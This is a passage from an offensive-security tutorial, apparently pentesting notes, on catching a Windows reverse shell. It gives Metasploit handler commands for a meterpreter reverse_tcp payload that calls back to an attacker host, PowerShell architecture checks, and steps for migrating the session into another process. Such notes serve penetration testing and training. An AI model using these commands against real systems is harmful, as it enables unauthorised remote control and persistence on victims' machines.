 After transfer our _shellcode_ to the target machine, we will **start listening** with metasploit at the same port:

```
msf> use multi/handler
msf> set PAYLOAD windows/meterpreter/reverse_tcp
msf> set LPORT [PORT]
msf> set LHOST [IP]
msf> run
```

When we execute our _shellcode_ we will receive the **meterpreter** in the handler:

```
.\meterpreter.exe
```

{% hint style="danger" %}
Be careful, **migrate** the process to the same machine architecture!
{% endhint %}

### Migrating the reverse shell

#### From Powershell:

```
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
```

If they don't sahre the same architecture, we will need to create a new Revershell with the appropiate **Powershell path:**

* **For 32 bits:**

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

* **For 64 bits:**

`C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe`

#### From Meterpreter:

First we need to **list** all processes:

```
meterpreter > ps
```

Afther getting the list of all the processs going on we can **migrate** ourselves to some reliable process:

```
meterpreter > migrate PID
```

## Linux

There are many ways to get a reverse shell in many differents languages and using many differents binaries.
